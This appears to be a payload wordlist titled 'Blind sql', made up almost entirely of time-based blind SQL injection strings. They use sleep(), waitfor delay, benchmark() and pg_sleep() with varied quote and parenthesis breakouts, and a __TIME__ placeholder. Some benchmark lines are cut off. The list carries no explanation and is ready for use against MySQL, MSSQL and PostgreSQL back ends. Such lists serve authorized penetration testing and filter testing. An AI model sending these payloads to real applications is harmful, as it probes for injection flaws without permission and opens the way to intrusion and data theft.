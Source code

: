 # **Blind sql**

sleep(__TIME__)#  
1 or sleep(__TIME__)#  
" or sleep(__TIME__)#  
' or sleep(__TIME__)#  
" or sleep(__TIME__)="  
' or sleep(__TIME__)='  
1) or sleep(__TIME__)#  
") or sleep(__TIME__)="  
') or sleep(__TIME__)='  
1)) or sleep(__TIME__)#  
")) or sleep(__TIME__)="  
')) or sleep(__TIME__)='  
;waitfor delay '0:0:__TIME__'--  
);waitfor delay '0:0:__TIME__'--  
';waitfor delay '0:0:__TIME__'--  
";waitfor delay '0:0:__TIME__'--  
');waitfor delay '0:0:__TIME__'--  
");waitfor delay '0:0:__TIME__'--  
));waitfor delay '0:0:__TIME__'--  
'));waitfor delay '0:0:__TIME__'--  
"));waitfor delay '0:0:__TIME__'--  
benchmark(x.x.x.x  
1 or benchmark(x.x.x.x  
" or benchmark(x.x.x.x  
' or benchmark(x.x.x.x  
1) or benchmark(x.x.x.x  
") or benchmark(x.x.x.x  
') or benchmark(x.x.x.x  
1)) or benchmark(x.x.x.x  
")) or benchmark(x.x.x.x  
')) or benchmark(x.x.x.x  
pg_sleep(__TIME__)--  
1 or pg_sleep(__TIME__)--  
" or pg_sleep(__TIME__)--  
' or pg_sleep(__TIME__)--  
1) or pg_sleep(__TIME__)--  
") or pg_sleep(__TIME__)--  
') or pg_sleep(__TIME__)--  
1)) or pg_sleep(__TIME__)--  
")) or pg_sleep(__TIME__)--  
')) or pg_sleep(__TIME__)--